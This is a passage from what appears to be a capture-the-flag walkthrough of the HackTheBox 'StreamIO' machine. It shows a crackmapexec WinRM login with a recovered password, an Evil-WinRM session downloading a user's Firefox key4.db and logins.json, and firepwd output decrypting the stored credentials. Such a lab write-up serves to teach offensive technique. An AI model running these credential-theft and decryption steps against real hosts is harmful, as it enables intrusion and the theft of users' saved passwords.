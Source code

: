 ```cmd

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users
```

```bash
# crackmapexec smb 10.10.11.158 -u user -p pass --continue-on-success --no-bruteforce
crackmapexec winrm streamio.htb -u nikk37 -p 'get_dem_girls2@yahoo.com'
SMB         watch.streamIO.htb 5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:streamIO.htb)
HTTP        watch.streamIO.htb 5985   DC               [*] http://watch.streamIO.htb:5985/wsman
WINRM       watch.streamIO.htb 5985   DC               [+] streamIO.htb\nikk37:get_dem_girls2@yahoo.com (Pwn3d!)
```

# Auth as JDgodd
### Enum 
WinPEAS notice that there is a FireFox database file which may contain some credentials. Researching how to
decrypt FireFox database passwords from `key4.db`

* https://github.com/A1vinSmith/firepwd
* https://0xdf.gitlab.io/2022/03/05/htb-hancliffe.html#decrypt-passwords
* https://raw.githubusercontent.com/lclevy/firepwd/master/mozilla_pbe.pdf

```cmd
*Evil-WinRM* PS C:\Users\nikk37\AppData\roaming\mozilla\Firefox\Profiles\br53rxeg.default-release> download key4.db
                                        
Info: Downloading C:\Users\nikk37\AppData\roaming\mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db to key4.db
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\nikk37\AppData\roaming\mozilla\Firefox\Profiles\br53rxeg.default-release> download logins.json
```

```bash
python3 ~/Tools/firepwd/firepwd.py -d Firefox
globalSalt: b'd215c391179edb56af928a06c627906bcbd4bd47'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'5d573772912b3c198b1e3ee43ccb0f03b0b23e46d51c34a2a055e00ebcd240f5'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'1baafcd931194d48f8ba5775a41f'
       }
     }
   }
   OCTETSTRING b'12e56d1c8458235a4136b280bd7ef9cf'
 }
clearText b'70617373776f72642d636865636b0202'
```